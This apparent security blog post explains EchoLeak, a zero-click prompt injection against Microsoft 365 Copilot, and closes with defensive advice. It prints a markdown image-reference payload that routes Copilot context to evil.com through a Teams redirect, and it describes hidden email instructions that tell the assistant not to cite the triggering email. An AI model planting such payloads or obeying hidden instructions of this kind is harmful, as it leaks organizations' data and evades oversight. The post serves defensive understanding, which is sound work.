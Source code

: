 ```yaml
---
layout: post
title: "This Is Not a Drill: EchoLeak (CVE-2025-32711) and the First Real-World Zero-Click LLM Attack"
date: 2025-06-25
categories: [AI Security, Prompt Injection]
tags: [ai-threats, data-exfiltration, cve-2025-32711, copilot, microsoft-365, rag-vulnerabilities, llm-attack-surface]
---
```


## EchoLeak: CVE-2025-32711 and the Rise of Zero‑Click LLM Exploits

In June 2025, a critical vulnerability dubbed **EchoLeak** (CVE‑2025‑32711) was disclosed that affects Microsoft 365 Copilot. It represents one of the first *zero-click* prompt injection attacks in an LLM-powered system and serves as a wake-up call about the reality of untrusted AI inputs.
<!--more-->

Official CVE entries for more details:

- [NVD: CVE‑2025‑32711](https://nvd.nist.gov/vuln/detail/CVE-2025-32711)  
- [Microsoft Security Response Center: CVE‑2025‑32711](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-32711)

---

## What is EchoLeak?

CVE‑2025‑32711 is a critical AI command injection flaw (CVSS 9.3) in Microsoft 365 Copilot. Attackers can embed hidden prompts within emails, which Copilot processes automatically—*without any user interaction*—to exfiltrate internal organizational data.

---

## How the Exploit Works

1. **Malicious email content**  
   The attacker sends a normal-looking email into the target’s inbox. It contains no obvious signs of malicious intent and passes through standard filters.

2. **Hidden instructions via Markdown**  
   The email includes a concealed exfiltration prompt that instructs the model to fetch a redirect URL embedding internal context. When Copilot parses the markdown, it unknowingly leaks sensitive data. For example:
   ```markdown
   [ref]: https://teams.microsoft.com/redirect?to=https://evil.com?leak={{copilot_context}}
   ![alt text][ref]
   ```
   This syntax appears benign but causes the model to leak internal context via query parameters.

3. **Zero-click exfiltration**  
   Copilot, during its background summarization tasks, automatically parses the email and resolves the embedded link—triggering the data leak without any user interaction.

4. **No trace left behind**  
   Some variants of the attack include instructions telling Copilot not to reference the triggering email in its reply, making detection and logging more difficult.

---

## Why It Matters

- **Completely zero-click**: No user prompt or interaction needed.
- **Filter evasion**: Benign-looking Markdown bypassed standard security controls.
- **High-impact exfiltration**: Access to Outlook, Teams, SharePoint, and more.
- **Scope violation**: Demonstrates how RAG boundaries and AI filters can be bypassed by creative injection.

---

## Key SecOps Takeaways

EchoLeak proves that prompt injection isn't theoretical—it’s here and it's weaponized. Here are strategies to mitigate this class of risk:

- **Treat all inputs as hostile**: Sanitize and filter AI inputs, not just outputs.
- **Enforce context boundaries**: Limit RAG scope and audit retrieval logic.
- **Restrict model browsing**: Architect LLMs to avoid untrusted content fetches.
- **Monitor LLM behavior**: Log and alert on unusual model-driven network calls or redirects.
- **Red-team for prompt injection**: Traditional red-teaming often ignores LLMs—but with AI integrated into critical systems, security teams must treat them like any other attack surface. Simulate realistic prompt injection attempts using emails, markdown, code snippets, and adversarial inputs that test how your LLM agents process and act on external content.

Prompt injection is a real and growing threat. As enterprises rely more on LLMs, security teams must build prompt hygiene into system design and defenses.

---

*Sources: NVD, Microsoft Security Response Center, The Hacker News, SOC Prime, Field Effect Security Intelligence.*

---

> Exploiting data. Securing AI. Living between the tokens and the dead prompts.
